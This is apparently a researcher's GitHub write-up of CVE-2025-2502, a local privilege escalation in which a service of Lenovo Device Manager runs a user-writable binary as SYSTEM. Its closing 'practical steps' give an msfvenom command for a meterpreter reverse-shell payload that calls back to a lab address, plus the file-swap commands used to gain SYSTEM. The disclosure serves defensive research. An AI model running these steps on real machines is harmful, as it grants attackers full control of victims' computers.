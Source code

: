 CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)
While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. 
Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application 
were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, 
a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

To validate this hypothesis without impacting production systems, I built an isolated VM testbed (host-only network) and reproduced the conditions: 
install the vulnerable Device Manager + AI Picture plugin, confirm the file ACLs, inspect the service, and observe the service launching the binary 
as LocalSystem after replacement and reboot. The lab confirmed the escalation vector end-to-end.

In short:
TL;DR: A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users F (Full) control over downloaded tool binaries 
under C:\ProgramData\Lenovo\devicecenter\modules\…. A privileged service (KPICService_Lenovo) loads one such binary as LocalSystem; because an unprivileged 
user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation. 
This writeup documents discovery, a high-level reproduction approach used in a controlled lab, indicators, and mitigations.
<img width="1756" height="108" alt="image" src="https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af" />

High-level reproduction
Setup lab
Host a Windows VM, snapshot it. Install Lenovo Device Manager and the AI Picture plugin (version matching the vulnerable sample). Ensure the VM is isolated from production networks.

<img width="867" height="597" alt="image" src="https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a" />

Confirm service & permissions
Inspect the service configuration:
C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
<img width="1024" height="589" alt="image" src="https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427" />
<img width="897" height="84" alt="image" src="https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e" />

Validate replace-on-disk scenario
With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original kpicservice.exe file (or otherwise alter the content of the file on disk).

Replace the on-disk binary with a benign test binary under the same filename (lab-only). Reboot the VM. After boot, verify the service executed the replaced binary and that it executed with SYSTEM privileges.

Now for the practical steps I performed.
First I generated a kpicservice.exe payload: 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe Then I moved the original file and replaced it with the generated shell:

move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe

After rebooting the device, the service started the replaced kpicservice.exe (the payload) and I obtained SYSTEM privileges.

<img width="921" height="677" alt="image" src="https://github.com/user-attachments/assets/35d8f450-356e-47b0-b4dd-41f5bbe6d31b" />

